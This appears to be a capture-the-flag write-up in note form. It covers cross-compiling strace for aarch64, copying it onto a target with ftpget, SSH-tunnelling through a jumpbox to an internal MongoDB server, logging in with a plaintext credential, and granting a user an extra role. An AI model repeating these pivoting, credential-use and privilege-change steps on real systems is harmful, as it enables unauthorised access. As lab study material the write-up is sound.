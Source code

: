 
# Goal
It looks like the goal of this challenge is to find two ip addresses

# Tooling


## Strace
### Building for aarch64
It turns out that cross compiling strace for aarch64 isn't difficult, but the `strace` project documentation is somewhat lacking.


Install some deps
```
sudo apt install gcc-aarch64-linux-gnu
sudo apt install crossbuild-essential-arm64
sudo apt install crossbuild-essential-armel
sudo apt install gcc-arm-linux-gnueabi gcc-arm-none-eabi

# and vsftpd for the file transfer
sudo apt install vsftpd
```

```
git clone git@github.com:strace/strace.git
cd strace
./bootstrap
mkdir build
cd build
LDFLAGS='-static -pthread' ARCH='aarch64' CC='aarch64-linux-gnu-gcc' ../configure --enable-mpers=no --host=aarch64-linux
make -j4
cd src
tar -acf strace.tar strace
gzip strace.tar
sudo cp strace.tar.gz ~
```



### getting strace onto the target system
```
ftpget -u clif -p '<redacted>' 192.168.86.23 strace.tar.gz
```


# Connect to the mongodb instance
original mongodb ip address: 100.107.142.158

```
ssh -o "IdentitiesOnly=yes" -i ~/.ssh/jumpbox.key -L 27017:100.107.142.158:27017 user@external-support.bluehorizonmobile.com
```
```
mongosh 'mongodb://maintenance:e34adee367a46a@localhost:27017/?authSource=snapshot-f2852ce48e77'

db.grantRolesToUser("maintenance", [{role: "enableSharding", db: "snapshot-f2852ce48e77"}])
```
